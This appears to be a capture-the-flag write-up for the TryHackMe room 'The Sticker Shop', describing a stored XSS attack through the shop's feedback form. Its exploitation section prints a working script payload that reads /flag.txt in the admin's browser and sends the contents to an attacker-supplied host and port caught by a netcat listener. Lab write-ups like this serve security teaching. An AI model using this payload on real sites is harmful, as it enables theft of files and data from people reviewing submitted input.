 > Can you exploit the sticker shop in order to capture the flag?

Room Link: [https://tryhackme.com/room/thestickershop](https://tryhackme.com/room/thestickershop)

This challenge from TryHackMe — _The Sticker Shop_ — takes us through a fun yet realistic scenario that highlights the **real-world impact of client-side vulnerabilities**, specifically **stored XSS (Cross-Site Scripting)**.

You’re placed in the shoes of an attacker targeting a small sticker business that just launched their own website. Due to limited technical experience, they made a critical mistake: **they use the same machine for both hosting the website and browsing customer feedback**.

This opens the door for **client-side exploitation** — where a cleverly crafted payload can execute in the browser of someone reviewing the input, possibly revealing sensitive internal data.

The mission?  
➡️ **Find a way to read the contents of** `**/flag.txt**` **— a file that is restricted to local access.**

With a little bit of creativity and JavaScript, we’ll turn their poor architecture decision into an attack vector.

Let’s dive in.

# 🧠 Scenario

![](https://miro.medium.com/v2/resize:fit:875/1*NLpZW3ZCP1z8CdjyjFRSSg.png)

# Question

![](https://miro.medium.com/v2/resize:fit:280/1*WVolCvAZ-x6iZt2Eofw2Dg.png)

# 🌐 Website Exploration

After identifying the target IP address and confirming that the web service runs on port `8080`, I navigated to the site and found a simple webpage for a **Cat Sticker Shop**.

![](https://miro.medium.com/v2/resize:fit:875/1*XEDOJP0vpspdv4wbEJwOFw.png)

Exploring the site further, I discovered a **feedback section**, which contained a basic input form and a submit button — a potential entry point for client-side interactions.

![](https://miro.medium.com/v2/resize:fit:875/1*W7Gq8eZ46DXoiU3NTPLGfA.png)

Curious about the goal — which was to access the contents of `/flag.txt` — I attempted to visit `http://<target-ip>:8080/flag.txt` directly. However, it responded with:

![](https://miro.medium.com/v2/resize:fit:875/1*NOCWa980RKU2YexcwgUBsA.png)

This indicated that the file isn’t publicly accessible. It’s likely restricted to **local users only**, such as the browser used by the admin/server itself.

# 💥 Exploitation — Stored XSS via Feedback

After discovering the feedback form, my first thought was to test it for **stored XSS** and that the flag is inaccessible directly.

Since the feedback is likely reviewed by the shop owner (who’s using the same computer to browse the web and host the server), a successful XSS payload could allow me to execute JavaScript in their browser — **from the server’s perspective**, which **has access to** `**/flag.txt**`.

To achieve this, I crafted a basic XSS payload using `fetch()` to read the file and exfiltrate its content to my own machine:

<script>  
fetch('/flag.txt')  
  .then(r => r.text())  
  .then(data => fetch('http://<YOUR-IP>:<YOUR-PORT>/?flag=' + encodeURIComponent(data)));  
</script>

🔎 **Explanation:**

- `fetch('/flag.txt')` – Attempts to read the restricted flag file.
- The `.then()` block captures the response and encodes it.
- It then sends the flag as a GET request to my listener (`http://<YOUR-IP>:8000`), where I’m running a netcat listener:

![](https://miro.medium.com/v2/resize:fit:358/1*wJ-PJ8OR7vw98RWFj9Y7tQ.png)

I submitted this payload through the feedback form, and waited for the admin to view it.

![](https://miro.medium.com/v2/resize:fit:819/1*bAQE9Sr3Mtp_QFBuoxwAkA.png)

After submitting the XSS payload and waiting a few moments, my listener received an incoming request from the server:

![](https://miro.medium.com/v2/resize:fit:875/1*8nWhOuiVm9_RLDLGBgO61Q.png)

Boom — there’s the flag!

# ✅ Conclusion

This challenge demonstrates a classic **stored XSS → client-side privilege abuse** scenario. Even though `/flag.txt` was protected from public access, exploiting the trust between the admin's browser and the local server allowed us to bypass the restriction.

🔐 **Lesson learned**: Always sanitize user input — and never browse untrusted input directly from your production server.